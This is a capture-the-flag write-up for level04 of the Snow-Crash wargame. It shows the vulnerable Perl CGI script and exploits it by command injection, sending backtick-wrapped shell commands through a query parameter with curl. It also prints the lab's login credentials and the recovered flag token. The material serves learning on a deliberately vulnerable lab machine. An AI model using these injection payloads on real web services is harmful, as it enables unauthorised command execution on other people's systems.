 # Flag 04

- Access to Snow-Crash VM using level04/qi0maab88jeaj46qoumi7maus credentials
```
e1r9p7% ssh -p 4242 level04@10.11.100.146
```

- `ll`
```
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl*
```

- `cat level04.pl `
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

- It's a perl code that take redirect stdout and stderr to same output, and exec the x var
> https://stackoverflow.com/questions/818255/in-the-shell-what-does-21-mean
> https://stackoverflow.com/questions/11255447/what-does-mean/11255498

- Try to pass a x param
```
level04@SnowCrash:~$ curl http://10.11.100.146:4747/?x=test
test
```

- Try to pass arry
```
level04@SnowCrash:~$ curl http://10.11.100.146:4747/?[]x=test
curl: (3) [globbing] illegal character in range specification at pos 29
```

- Try to pass cmd in whitin backticks
```
level04@SnowCrash:~$ curl http://10.11.100.146:4747/?x=`ls`
level04.pl
```

- Very goooood, it works, so try to pass getflag cmd
```
level04@SnowCrash:~$ curl http://10.11.100.146:4747/?x=`getflag`
Check
curl: (6) Couldn't resolve host 'flag.Here'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'your'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host ''
curl: (6) Couldn't resolve host 'Nope'
curl: (6) Couldn't resolve host 'there'
curl: (6) Couldn't resolve host 'is'
curl: (6) Couldn't resolve host 'no'
curl: (6) Couldn't resolve host 'token'
curl: (6) Couldn't resolve host 'here'
curl: (6) Couldn't resolve host 'for'
curl: (6) Couldn't resolve host 'you'
curl: (6) Couldn't resolve host 'sorry.'
curl: (6) Couldn't resolve host 'Try'
curl: (6) Couldn't resolve host 'again'
curl: (6) Couldn't resolve host ''
```

- Try in Browser
```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```